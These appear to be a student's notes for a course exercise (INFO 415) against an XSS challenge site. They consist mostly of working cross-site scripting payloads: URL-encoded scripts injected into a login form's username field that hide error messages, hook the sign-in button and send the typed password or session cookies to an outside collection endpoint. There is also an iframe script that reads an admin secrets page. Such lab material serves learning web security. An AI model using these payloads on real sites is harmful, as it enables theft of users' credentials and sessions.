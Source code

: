 Royce Le
INFO 415

Payload1 - 

Payload2 -
http://xss-challenges.r7.io/0/login?username=%3Cscript%3Ewindow.location.replace%28%22http%3A%2F%2Flocalhost%3A8000%2F%22%29%3B%3C%2Fscript%3E&password=hi&user_language=english

Resources:
http://stackoverflow.com/questions/4744751/how-do-i-redirect-with-javascript
-How to redirect w/ Javascript
http://stackoverflow.com/questions/9800310/add-event-handler-to-html-element-using-javascript
can you add an event handler to an input?
https://www.w3schools.com/jsref/prop_style_visibility.asp

below is your token for saving and retrieving data
go to http://r7.io/e/[token]?s= and whatever comes after the = will be saved
go to http://r7.io/e/[token] without the s parameter to retrieve the data
http://r7.io/e/J7zkgVqCiG
data will be overwritten with every save
be careful to URL encode what you save so ; & + / don't cause issues

token: J7zkgVqCiG

PoC
<script>
	i = new Image();
	i.src='http://r7.io/e/J7zkgVqCiG?s=username = ' + escape(username) + ' password = ';
	setTimeout('document.forms[0].submit();',3000);
</script> 

------------------------STUFF-----------------
<input id="button" type="submit" name="button" onclick="myFunction();" value="enter"/>
<script>function myFunction(){alert(username + password);};</script>
----------------------------------------------
<script>
	var prob = document.getElementsByClassName("problem");
	prob[0].style.display = "none";
	var errmsg = document.getElementsByClassName("error-message");
	errmsg[0].style.display = "none";
	window.onload =function (){
	var el = document.getElementById("signin-btn");
	if (el.addEventListener) {
	    el.addEventListener("click", yourFunction, false);
	} else {
	    el.attachEvent('onclick', yourFunction);
	}
	};
	function yourFunction(){
		alert(document.cookie);
		i = new Image();
		i.src='http://r7.io/e/J7zkgVqCiG?s=The password is: ' + document.cookie;
	}  
</script>
---------------------------------------------------
<iframe src="http://xss-challenges.r7.io/admin/secrets" id="gotcha" ></iframe>
<script>
	window.onload=function() {
		var iframe = document.getElementById('gotcha');
		var innerDoc = iframe.contentDocument || iframe.contentWindow.document;
		alert(innerDoc.getElementById("secrets").innerText);
	}
</script>

PAYLOAD 1
http://xss-challenges.r7.io/0/login?username=%3Cscript%3E+%09var+prob+%3D+document.getElementsByClassName%28%22problem%22%29%3B+%09prob%5B0%5D.style.display+%3D+%22none%22%3B+%09var+errmsg+%3D+document.getElementsByClassName%28%22error-message%22%29%3B+%09errmsg%5B0%5D.style.display+%3D+%22none%22%3B+%09window.onload+%3Dfunction+%28%29%7B+%09var+el+%3D+document.getElementById%28%22signin-btn%22%29%3B+%09if+%28el.addEventListener%29+%7B+%09++++el.addEventListener%28%22click%22%2C+yourFunction%2C+false%29%3B+%09%7D+else+%7B+%09++++el.attachEvent%28%27onclick%27%2C+yourFunction%29%3B+%09%7D+%09%7D%3B+%09function+yourFunction%28%29%7B+%09%09i+%3D+new+Image%28%29%3B+%09%09i.src%3D%27http%3A%2F%2Fr7.io%2Fe%2FJ7zkgVqCiG%3Fs%3DThe+password+is%3A+%27+%2B+document.getElementById%28%27login_password%27%29.value%3B+%09%7D+++%3C%2Fscript%3E&password=hi&user_language=english

PAYLOAD 3
http://xss-challenges.r7.io/0/login?username=%3Cscript%3E+%09var+prob+%3D+document.getElementsByClassName%28%22problem%22%29%3B+%09prob%5B0%5D.style.display+%3D+%22none%22%3B+%09var+errmsg+%3D+document.getElementsByClassName%28%22error-message%22%29%3B+%09errmsg%5B0%5D.style.display+%3D+%22none%22%3B+%09window.onload+%3Dfunction+%28%29%7B+%09var+el+%3D+document.getElementById%28%22signin-btn%22%29%3B+%09if+%28el.addEventListener%29+%7B+%09++++el.addEventListener%28%22click%22%2C+yourFunction%2C+false%29%3B+%09%7D+else+%7B+%09++++el.attachEvent%28%27onclick%27%2C+yourFunction%29%3B+%09%7D+%09%7D%3B+%09function+yourFunction%28%29%7B+%09%09alert%28document.cookie%29%3B+%09%09i+%3D+new+Image%28%29%3B+%09%09i.src%3D%27http%3A%2F%2Fr7.io%2Fe%2FJ7zkgVqCiG%3Fs%3DThe+password+is%3A+%27+%2B+document.cookie%3B+%09%7D+++%3C%2Fscript%3E&password=ji&user_language=english

